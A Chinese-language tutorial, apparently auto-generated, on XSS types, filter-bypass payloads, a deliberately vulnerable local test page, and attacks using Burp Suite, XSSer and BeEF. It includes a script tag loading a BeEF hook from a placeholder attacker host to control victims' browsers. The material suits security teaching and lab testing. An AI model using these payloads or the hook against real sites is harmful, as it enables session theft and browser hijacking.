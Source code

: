 # XSS攻击向量分类与绕过技术的攻击技术

## 1. 技术原理解析

### 1.1 XSS攻击概述

跨站脚本攻击（XSS，Cross-Site Scripting）是一种常见的Web安全漏洞，攻击者通过在目标网站上注入恶意脚本，使得这些脚本在用户浏览器中执行，从而窃取用户信息、劫持会话、篡改页面内容等。XSS攻击的核心在于浏览器对HTML、JavaScript等内容的解析和执行机制。

### 1.2 XSS攻击分类

XSS攻击主要分为三类：

1. **反射型XSS（Reflected XSS）**：攻击者将恶意脚本通过URL参数等方式注入到目标页面，服务器未对输入进行有效过滤，直接将恶意脚本返回给用户浏览器执行。
2. **存储型XSS（Stored XSS）**：攻击者将恶意脚本存储到目标网站的数据库中，当其他用户访问包含该脚本的页面时，脚本在用户浏览器中执行。
3. **DOM型XSS（DOM-based XSS）**：攻击者通过修改页面的DOM结构，使得恶意脚本在客户端执行，而不需要与服务器进行交互。

### 1.3 底层实现机制

XSS攻击的底层实现机制主要依赖于浏览器对HTML和JavaScript的解析和执行。浏览器在解析HTML时，会识别`<script>`标签并执行其中的JavaScript代码。攻击者通过构造特定的输入，使得浏览器误将恶意脚本当作合法的HTML或JavaScript代码执行。

## 2. 变种与高级利用技巧

### 2.1 绕过过滤与编码

1. **大小写混淆**：通过改变标签或属性的字母大小写，绕过简单的过滤规则。例如：`<ScRiPt>alert(1)</ScRiPt>`。
2. **编码绕过**：使用HTML实体编码、URL编码、Unicode编码等方式绕过过滤。例如：`<img src=x onerror=alert(1)>`可以编码为`<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>`。
3. **双写绕过**：通过重复输入某些字符或标签，绕过简单的过滤规则。例如：`<scr<script>ipt>alert(1)</script>`。

### 2.2 利用事件处理程序

1. **事件处理程序注入**：通过注入事件处理程序（如`onerror`、`onload`、`onclick`等）来执行恶意脚本。例如：`<img src=x onerror=alert(1)>`。
2. **动态属性注入**：通过注入动态属性（如`style`、`href`等）来执行恶意脚本。例如：`<a href="javascript:alert(1)">Click me</a>`。

### 2.3 利用DOM操作

1. **DOM操作注入**：通过修改页面的DOM结构，使得恶意脚本在客户端执行。例如：`document.write('<img src=x onerror=alert(1)>')`。
2. **利用`eval`函数**：通过注入`eval`函数来执行恶意脚本。例如：`eval('alert(1)')`。

## 3. 攻击步骤与实验环境搭建指南

### 3.1 实验环境搭建

1. **安装Web服务器**：可以使用Apache、Nginx等Web服务器，或者使用Docker快速搭建一个Web服务器环境。
2. **创建测试页面**：创建一个简单的HTML页面，模拟存在XSS漏洞的场景。例如：
   ```html
   <!DOCTYPE html>
   <html>
   <head>
       <title>XSS Test Page</title>
   </head>
   <body>
       <h1>XSS Test Page</h1>
       <p>Welcome, <span id="username"></span>!</p>
       <script>
           var username = new URLSearchParams(window.location.search).get('username');
           document.getElementById('username').innerHTML = username;
       </script>
   </body>
   </html>
   ```
3. **启动Web服务器**：将测试页面放置在Web服务器的根目录下，并启动服务器。

### 3.2 攻击步骤

1. **反射型XSS攻击**：
   - 构造恶意URL：`http://localhost/xss-test.html?username=<script>alert(1)</script>`
   - 访问该URL，观察浏览器是否弹出警告框。

2. **存储型XSS攻击**：
   - 在测试页面中添加一个表单，允许用户提交评论。
   - 提交恶意评论：`<script>alert(1)</script>`
   - 刷新页面，观察浏览器是否弹出警告框。

3. **DOM型XSS攻击**：
   - 修改测试页面的JavaScript代码，使其直接操作DOM：
     ```javascript
     var username = new URLSearchParams(window.location.search).get('username');
     document.write('Welcome, ' + username + '!');
     ```
   - 构造恶意URL：`http://localhost/xss-test.html?username=<img src=x onerror=alert(1)>`
   - 访问该URL，观察浏览器是否弹出警告框。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行XSS测试

1. **启动Burp Suite**：打开Burp Suite，配置浏览器代理，使其通过Burp Suite进行网络请求。
2. **拦截请求**：在浏览器中访问测试页面，Burp Suite会拦截请求。
3. **修改请求参数**：在Burp Suite中修改请求参数，注入恶意脚本。例如：
   ```
   GET /xss-test.html?username=<script>alert(1)</script> HTTP/1.1
   Host: localhost
   ```
4. **发送请求**：将修改后的请求发送到服务器，观察浏览器是否弹出警告框。

### 4.2 使用XSSer自动化工具

1. **安装XSSer**：在Kali Linux中，可以通过`apt-get install xsser`安装XSSer。
2. **运行XSSer**：使用XSSer对目标网站进行XSS漏洞扫描。例如：
   ```
   xsser -u "http://localhost/xss-test.html?username=test"
   ```
3. **分析结果**：XSSer会输出扫描结果，指出是否存在XSS漏洞。

### 4.3 使用BeEF进行XSS利用

1. **启动BeEF**：在Kali Linux中，可以通过`beef-xss`启动BeEF。
2. **注入恶意脚本**：在测试页面中注入BeEF提供的恶意脚本。例如：
   ```
   <script src="http://<BeEF_IP>:3000/hook.js"></script>
   ```
3. **控制受害者浏览器**：在BeEF控制台中，可以看到受害者的浏览器信息，并执行各种攻击命令。

## 5. 总结

XSS攻击是Web安全中的常见漏洞，攻击者通过注入恶意脚本，可以在用户浏览器中执行任意代码。本文详细介绍了XSS攻击的分类、底层实现机制、变种与高级利用技巧，并提供了详细的攻击步骤和实验环境搭建指南。通过实际命令、代码和工具的使用说明，读者可以更好地理解和防范XSS攻击。

---

*文档生成时间: 2025-03-11 17:03:09*
